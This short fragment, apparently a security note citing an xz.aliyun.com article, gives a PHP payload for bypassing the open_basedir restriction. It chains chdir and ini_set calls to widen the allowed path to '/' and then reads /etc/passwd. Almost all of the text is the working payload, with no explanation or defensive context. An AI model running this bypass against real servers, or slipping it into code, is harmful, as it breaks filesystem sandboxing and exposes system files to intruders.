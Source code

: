 参考：
- twitter
- https://xz.aliyun.com/t/4720

payload
```python
<?php
chdir('subDir');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
$a=file_get_contents('/etc/passwd');
var_dump($a);
```